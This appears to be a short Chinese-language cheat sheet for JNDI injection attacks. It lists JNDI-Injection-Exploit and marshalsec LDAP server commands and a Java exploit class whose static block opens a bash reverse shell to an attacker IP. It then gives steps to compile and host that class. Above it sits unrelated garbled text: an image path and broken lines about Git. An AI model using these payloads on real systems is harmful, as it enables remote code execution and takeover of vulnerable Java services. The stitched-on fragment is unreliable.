 Git is a version control sysrem.
Git is free software.
wher true
will be not
branch modify





JNDI注入工具：

JNDI-Injection-Exploit

```
java -jar JNDI-Injection-Exploit -C "command" -A 127.0.0.1
```



marshalsec-jar

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefserver "http://ip/#EXp" 1389
```

需要准备包含恶意代码的exp.java文件

```java
import java.lang.Runtime;
import java.lang.Process;

public class Exp {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"bash", "-c", "bash -i >& /dev/tcp/ip/9999 0>&1"};
            //linux
            Process pc = rt.exec(commands);
            //Process pc = rt.exec(command: "calc"); windows
            pc.waitFor();
        } catch (Exception e) {
            //do nothing
        }
    }
}
```

将以上代码使用`javac` exp.java编译生成exp.class

将生成的类放到搭建的web根目录中 例如`httpS://127.0.0.1/exp.class`

使用工具marshalsec-jar

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefserver "http://127.0.0.1/#eXp" 1389
```

注：无.class，有.class将会报错 #为标识元素名
